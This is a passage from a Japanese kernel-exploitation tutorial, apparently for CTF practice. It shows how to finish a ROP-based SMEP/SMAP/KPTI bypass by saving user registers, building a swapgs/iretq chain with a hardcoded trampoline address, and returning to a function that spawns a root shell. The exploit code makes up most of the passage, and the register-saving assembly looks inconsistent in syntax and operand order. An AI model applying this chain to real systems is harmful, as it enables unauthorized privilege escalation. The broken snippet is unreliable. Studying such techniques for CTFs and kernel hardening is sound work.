userlandに戻るには、[syscall](#do_syscall_64--userlandへの帰還)のセクションで見たような処理をすればOKです。
すなわち、**`swapgs`でGSを切り替えた後、`iretq`で戻ります**。
このとき、userland用のCS/RFLAGS/RSP/SSレジスタをstackに積んでおく必要があります。
よって、これらの値をuserlandにいるうちに保存しておく必要があります。
以下の関数をROPを始める前に実行しておきましょう:

```c
ulong user_cs, user_ss, user_sp, user_rflags;

// should compile with -masm=intel
static void save_state(void) {
  asm("movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r"(user_cs), "=r"(user_ss), "=r"(user_sp), "=r"(user_rflags)
      :
      : "memory");
}
```

あとは`swapgs` / `iretq`をするためのROP-chainを積み込みます:

```c
  *chn++ = 0xffffffff81800e26;  // save stack + swapgs
  *chn++ = 0;                   // trash
  *chn++ = 0;                   // trash
  *chn++ = (ulong)shell;
  *chn++ = user_cs;
  *chn++ = user_rflags;
  *chn++ = user_sp;
  *chn++ = user_ss;
```

`0xffffffff81800e26`はsyscall entrypointのLに該当する部分です:

```s
	movq	%rsp, %rdi
	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
	UNWIND_HINT_EMPTY

	pushq	6*8(%rdi)	/* SS */
	pushq	5*8(%rdi)	/* RSP */
	pushq	4*8(%rdi)	/* EFLAGS */
	pushq	3*8(%rdi)	/* CS */
	pushq	2*8(%rdi)	/* RIP */
	pushq	(%rdi)
	STACKLEAK_ERASE_NOCLOBBER
	SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi
	popq	%rdi
	swapgs
	jmp	.Lnative_iret
```

なお、L2のkernel stackを保存する部分も大事です。
L2以降はいわゆるトランポリンスタックを使うように設定してくれます。
ROP-chainに積むRFLAGSやRSPは有効なものであればまぁなんでもいいです。
どうせuserlandに戻ってきたらすぐに新しいプロセス(root shell)を立ち上げるので。
`RIP`に対応する部分には`system("/bin/sh")`をするような関数のアドレスを入れておきましょう。

------------------------------------

これでROPを使ったSMEP/SMAP(ついでにKPTI)バイパスができるはずです。
ぜひリモートで実際に権限昇格をしてみてください。

[^1]: 画像は[Intel Architectures Software Developer Manuals (SDM)](https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html)からの引用です。以下、特に断らない限り画像はSDMからの出典です。
